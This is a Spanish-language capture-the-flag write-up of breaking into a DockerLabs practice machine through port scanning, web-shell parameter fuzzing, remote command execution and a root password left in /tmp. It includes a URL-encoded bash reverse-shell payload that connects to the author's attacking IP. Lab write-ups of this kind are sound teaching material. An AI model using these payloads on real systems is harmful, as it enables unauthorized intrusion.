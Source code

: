 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/73c6b97a-2c28-4824-8baa-0aa424d9324c)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **80/tcp (HTTP):** Apache httpd 2.4.57 (Debian)
### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Esto llevó a acceder a una pagina de academia de ingles.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/c3f101b7-baba-4264-831c-756d960d4ea4)


# Fase 2- Exploración

#### Tmp?
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/6cb22334-9f1e-4a16-a819-1a3d94843f65)
Indagando en la pagina encuentro un mensaje que dice 
`¡Contáctanos hoy mismo para más información sobre nuestros programas de enseñanza de inglés!. Guardo un secretito en /tmp ;)`



#### Gobuster
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/4203921f-ac2f-4b75-a21f-f33aff130b76)
Realizando un escaneo con Gobuster encontramos dos paginas interesantes: `warning.html` y `shell.php` 

#### Webshell?
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/98eddb85-3c67-4b25-9d18-510215a3b785)
Esto nos da una pista. Suponemos que el otro archivo (**shell.php**), tiene una estructura similar al archivo **cmd.php**  

Pero desconocemos el nombre del parámetro que se usa en **shell.php**. Es decir, el parámetro "**cmd**" para el ejemplo de arriba.

Lo que vamos a hacer es **Fuzzear** con un diccionario, para descubrir cuál es ese parámetro que nos da una respuesta. En este caso he decidido emplear **wfuzz**. Donde usamos 200 hilos ("-t 200") para ir muy rápido, un diccionario típico de directory-list la macro **FUZZ** que se reemplazará con las palabras de la lista especificada anteriormente. Es decir, estaremos tratando de ejecutar el comando **id** para cada parámetro posible en la url.

El comando: `wfuzz -c --hl=0 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"`

# Fase 3- Explotación

#### Parametrer?
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/6343b0a9-74bf-4088-8f86-c309750af6b6)
Vemos que el parámetro -> "**parameter**" con el comando **id** que le hemos pasado, nos devuelve 2 líneas a diferencia del resto. Nos dirigimos a la web a comprobar que funciona y efectivamente hemos logrado un **RCE**. (Ejecución remota de comandos). Nos dirigimos a la web y lo comprobamos:

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/06e32832-d131-471e-ad96-338f69a23b78)

Funciono.

#### Revershell
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/2ebfc158-c035-408d-be18-865f5aa30537)
Enviamos la revershell `http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/192.168.52.143/443 0>%261"`
Los **"%26"** corresponden al símbolo **"&"** de forma URL-encodeada para que no den conflicto. Y siendo la **192.168.52.143 la **IP** de mi máquina atacante.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/1fdae283-efd7-4096-848e-00e1f939e296)
Y ya estamos dentro.

# Fase 4- Privilegios
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ecd2726e-be31-4967-8794-ee04bd58c4f7)

Se realizo el tratamiento de la TTY Correspondiente.

#### Sudo -l
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/eda3b8eb-d754-4952-89dd-77fc09efb7af)

El comando sudo -l no funciono, pero recordemos el mensaje del inicio del /tmp.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/7c28fc2e-7d8c-4556-9da1-59721b5e5377)

Al dirigirnos al directorio encontramos un archivo secret.txt que contiene la `contraseñaderoot123`

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/8448e512-3a43-496a-bd14-d3f49328afb5)

La introducimos y ya somos root!

